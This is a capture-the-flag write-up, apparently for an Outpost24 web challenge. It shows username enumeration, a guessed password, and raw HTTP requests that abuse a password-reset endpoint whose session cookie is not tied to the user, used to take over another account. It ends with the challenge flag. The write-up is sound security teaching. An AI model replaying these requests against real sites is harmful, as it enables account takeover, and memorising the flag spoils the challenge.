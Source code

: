 ![](Outpost24/img/The_Forgotten_Temple_Login_Form.png)

Clicking "The Scroll of Gods" button we download a txt file called usernames.txt

And maybe have a password: deathgod123




In page source:
```html
       <!-- Right section: Login + Password Reset (for Anubis) -->
        <div class="form-section">
            <!-- LOGIN FORM -->
                <form method="POST">
                    <label>Username:</label>
                    <input type="text" name="username" required><br>
                    <label>Password:</label>
                    <input type="password" name="password" required><br>
                    <button type="submit">Enter the Temple</button>
                </form>
        </div>
    </div>
    <script>
        document.getElementById("resetForm")?.addEventListener("submit", function(event) {
            event.preventDefault();
            let username = document.getElementById("resetUsername").value;
            let newPassword = document.getElementById("newPassword").value;

            fetch("/reset-password", {
                method: "POST",
                headers: { "Content-Type": "application/x-www-form-urlencoded" },
                body: `username=${username}&new_password=${newPassword}`
            })
            .then(response => response.json())
            .then(data => {
                document.getElementById("resetMessage").innerText = data.message;
                if (data.success) {
                    document.getElementById("resetForm").classList.add("hidden");
                }
            });
        });
    </script>
```


Successful login:
Anubis:deathgod123

![](The_Forgotten_Temple_Reset_Pw.png)



Request for resetting the password.
```
POST /reset-password HTTP/1.1
Host: 207.154.240.240:43243
Content-Length: 39
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:43243
Referer: http://207.154.240.240:43243/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBOVNA.Qt4TfAY7Nz8RgY9J0fba_QaP4tE
Connection: keep-alive

username=Anubis&new_password=New_anubis
```

This changes the password for the Anubis user.

Let's use the intruder to find the "true ruler".

Anubis and Khonsu gives this error of "Incorrect password" so this to account could be targeted. But the comment only mentions Anubis to login for reseting password. Let's try to reset the password with our second found user (Khonsu).

![](The_Forgotten_Temple_Intruder.png)

```
<!-- Right section: Login + Password Reset (for Anubis) -->
    <div class="form-section">        
    <p style="color: red;">Incorrect password</p>
```


```http
POST /reset-password HTTP/1.1
Host: 207.154.240.240:43243
Content-Length: 39
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:43243
Referer: http://207.154.240.240:43243/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBOVNA.Qt4TfAY7Nz8RgY9J0fba_QaP4tE
Connection: keep-alive

username=Khonsu&new_password=pwned123
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Thu, 01 May 2025 15:42:46 GMT
Content-Type: application/json
Content-Length: 58
Connection: close

{"message":"Password successfully reset!","success":true}
```

By using a cookie we can change the password for "Khonsu". So the cookie isn't tied to a user session.

![](The_Forgotten_Temple_Solved.png)

Flag: O24{73mp13_53cr37s_Unv31l3d}


